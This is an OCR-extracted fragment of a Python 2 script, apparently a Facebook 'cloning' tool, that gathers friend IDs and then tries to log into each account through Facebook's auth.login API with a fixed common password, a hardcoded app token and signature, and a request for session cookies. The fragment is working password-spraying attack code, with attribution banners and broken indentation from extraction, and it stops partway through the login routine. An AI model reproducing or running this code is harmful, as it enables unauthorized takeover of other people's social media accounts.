   for i in z['data']:

   id.append(i['id'])

 elif peak =="0":

  menu()

 else:

  print "\x1b[1;91mFill in correctly"

  pilih_super()

	

	print "\033[1;91mTotal IDs\033[1;93m: \033[1;94m"+str(len(id))

	jalan('\033[1;92mPlease Wait\033[1;93m...')

	titik = ['.   ','..  ','... ']

	for o in titik:

		print("\r\033[1;91mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)

	print "\n\033[1;94m«-----\x1b[1;93m♡To Stop Process Press CTRL+Z♡\033[1;94m----»"

	print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mPrincecharles\033[1;95m♡──────────•◈•──────────♡"

	jalan(' \033[1;93m ........Cloning Start plzzz Wait.......... ')

	print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mPrincecharles\033[1;95m♡──────────•◈•──────────♡"

	

			

	def main(arg):

		global cekpoint,oks

		user = arg

		try:

			os.mkdir('out')

		except OSError:

			pass #Dev:Sunil_amjad

		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)

			pass1 = ('786786')

			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
